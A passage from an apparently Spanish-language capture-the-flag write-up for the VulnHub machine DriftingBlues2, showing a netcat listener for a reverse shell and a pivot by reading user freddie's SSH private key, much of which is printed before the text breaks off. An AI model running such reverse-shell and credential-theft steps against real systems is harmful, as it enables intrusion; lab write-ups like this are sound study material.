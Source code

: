Nos ponemos en escucha de nuestro lado para recibir la reverse shell.

```bash
❯ rlwrap nc -nlvp 443
```

Apúntamos la url a un destino que no exista y obtenemos la reverse shell.

![post_non_exist](/assets/img/commons/vulnhub/DriftingBlues2/post_non_exist.png){: .center-image }

![reverse_shell](/assets/img/commons/vulnhub/DriftingBlues2/reverse_shell.png){: .center-image }

## Pivoting de usuario

---

Al ingresar al sistema, nuestro objetivo es encontrar las flags, nos dirigimos al path `/home/` e ingresamos a la carpeta del usuario freedie, pero no podemos listar la flag por falta de permisos.

Procedemos a analizar el contenido de la carperta y notamos que en el directorio `.ssh` la clave privada del usuario es accesible, la cual nos sirve para conectarnos por *SSH* sin necesidad de conocer la contraseña del usuario.

Copiamos el contenido de la clave a nuestro equipo, le damos permiso 400 y nos conectamos por ssh.

```shell
www-data@driftingblues:/home/freddie/.ssh$ cat id_
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAv/HVquua1jRNOCeHvQbB1CPsqkc6Y2N25ZpJ84H7DonP9CGo+vO/
gwHV7q4TsCfCK67x8uYoAOydIlIU6gwF17CpXydK52FxFfteLc0h9rkUKs8nIFxbxXBv8D
IiUwhtVTEy7ZcEYEBeC40LPhBB3/70NiTRHFXP0kOWCXLUZYrSwzpq+U+45JkzkrXYZUkL
hbHOoNFzVZTUESY/sO6/MZAGGCI2SytaIerWUiDCJB5vUB7cKuV6YwmSJw9rKKCSKWnfm+
bwAXZwL9iv+yTt5OiaY/81tzBC6WbbmIbdhibjQQS6AXRxwRdv7UrA5ymfktynDl4yOwX3
zO1cz4xK+wAAA8hn0zMfZ9MzHwAAAAdzc2gtcnNhAAABAQC/8dWq65rWNE04J4e9BsHUI+
yqRzpjY3blmknzgfsOic/0Iaj687+DAdXurhOwJ8IrrvHy5igA7J0iUhTqDAXXsKlfJ0rn
YXEV+14tzSH2uRQqzycgXFvFcG/wMiJTCG1VMTLtlwRgQF4LjQs+EEHf/vQ2JNEcVc/SQ5
YJctRlitLDOmr5T7jkmTOStdhlSQuFsc6g0XNVlNQRJj+w7r8xkAYYIjZLK1oh6tZSIMIk
Hm9QHtwq5XpjCZInD2sooJIpad+b5vABdnAv2K/7JO3k6Jpj/zW3MELpZtuYht2GJuNBBL
oBdHHBF2/tSsDnKZ+S3KcOXjI7BffM7VzPjEr7AAAAAwEAAQAAAQAWggBBM7GLbsSjUhdb
tiAihTfqW8HgB7jYgbgsQtCyyrxE73GGQ/DwJtX0UBtk67ScNL6Qcia8vQJMFP342AITYd
bqnovtCAMfxcMsccKK0PcpcfMvm0TzqRSnQOm/fNx9QfCr5aqQstuUVSy9UWC4KIhwlO6k
ePeOu3grkXiQk3uz+6H3MdXnfqgEp0bFr7cPfLgFlZuoUAiHlHoOpztP19DflVwJjJSLBT
8N+ccZIuo4z8GQK3I9kHBv7Tc1AIJLDXipHfYwYe+/2x1Xpxj7oPP6gXkmxqwQh8UQ8QBY
dT0J98HWEZctSl+MY9ybplnqeLdmfUPMlWAgOs2/dxlJAAAAgQCwZxd/EZuDde0bpgmmQ7
t5SCrDMpEb9phG8bSI9jiZNkbsgXAyj+kWRDiMvyXRjO+0Ojt97/xjmqvU07LX7wS0sTMs
QyyqBik+bFk9n2yLnJHtAsHxiEoNZx/+3s610i7KsFZQUT2FQjo0QOEoobALsviwjFXI1E
OsTmk2HN82rQAAAIEA7r1pXwyT0/zPQxxGt9YryNFl2s54xeerqKzRgIq2R+jlu4dxbVH1
FMBrPGF9razLqXlHDaRtl8Bk04SNmEfxyF+qQ9JFpY8ayQ1+G5kK0TeFvRpxYXrQH6HTMz
```